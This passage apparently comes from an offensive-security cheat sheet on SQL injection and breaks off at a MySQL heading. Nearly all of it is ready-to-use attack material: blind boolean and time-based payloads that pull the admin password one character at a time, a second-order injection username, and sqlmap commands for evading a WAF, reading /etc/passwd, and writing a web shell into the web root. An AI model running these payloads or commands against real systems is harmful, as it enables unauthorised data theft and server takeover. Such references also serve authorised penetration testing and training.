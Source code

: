 ```sql
-- Boolean-based blind
' AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a'-- -
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>65-- -

-- Time-based blind (MySQL)
' AND IF(ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))=97,SLEEP(5),0)-- -

-- Time-based blind (PostgreSQL)
' AND (CASE WHEN (ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))=97) THEN pg_sleep(5) ELSE pg_sleep(0) END)-- -
```

#### Second-Order SQL Injection

```sql
-- Registration phase
Username: admin'-- -
Password: password

-- Later query becomes
SELECT * FROM users WHERE username='admin'-- -' AND password='...'
```

### SQLMap Advanced Techniques

```bash
# Custom injection point with asterisk
sqlmap -u "http://<IP>/page.php?id=1*" --technique=U

# JSON POST data
sqlmap -u http://<IP>/api --data='{"id":1}' --method=POST --headers="Content-Type: application/json"

# Custom SQL injection
sqlmap -u http://<IP>/page.php?id=1 --suffix="-- -" --prefix="' AND "

# Bypassing WAF
sqlmap -u http://<IP>/page.php?id=1 --random-agent --tamper=space2comment,charencode

# Direct database connection
sqlmap -d "mysql://user:pass@<IP>:3306/database"

# File read/write
sqlmap -u http://<IP>/page.php?id=1 --file-read=/etc/passwd
sqlmap -u http://<IP>/page.php?id=1 --file-write=shell.php --file-dest=/var/www/html/shell.php
```

### Database-Specific Techniques

#### MySQL
